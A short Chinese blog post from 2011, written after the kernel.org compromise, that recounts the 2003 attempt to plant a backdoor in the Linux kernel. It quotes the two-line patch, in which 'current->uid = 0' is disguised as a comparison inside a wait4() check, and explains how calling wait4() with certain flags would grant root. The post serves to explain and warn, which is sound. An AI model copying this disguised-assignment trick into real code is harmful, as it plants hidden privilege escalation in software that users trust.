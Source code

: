 ```yaml
---
title: 2003年kernel的一个后门
tags:
  - backdoor
  - linux
  - 后门
id: 749
categories:
  - Linux
date: 2011-09-19 02:14:30
---
```


从9月8号到现在，kernel.org就倒了，按英文的话说，叫“从了”，或者“被玷污了”（compromised). 
看了看linux.com主页和LWN的新闻，说这已经不是第一次“从”了。刨坟找出一篇老帖，给大家看看2003年有人试图在内核里backdoor的一段：
[c]
+       if ((options == (__WCLONE|__WALL)) &amp;&amp; (current-&gt;uid = 0))
+                       retval = -EINVAL;
[/c]
乍看都像是正常的错误处理，但current->uid = 0这句不可小觑啊，这里应该用==但被故意写成了=，然后用户就提权成功，用户id变成了0，也就是root，只要以普通权限编写一段代码，调用wait4(),设定指定的flag，执行，就root了。
原话是：
A program which called wait4() with the given flags set would, thereafter, be running as root.

小朋友们切勿模仿。
原文在[这里](http://lwn.net/Articles/57135/)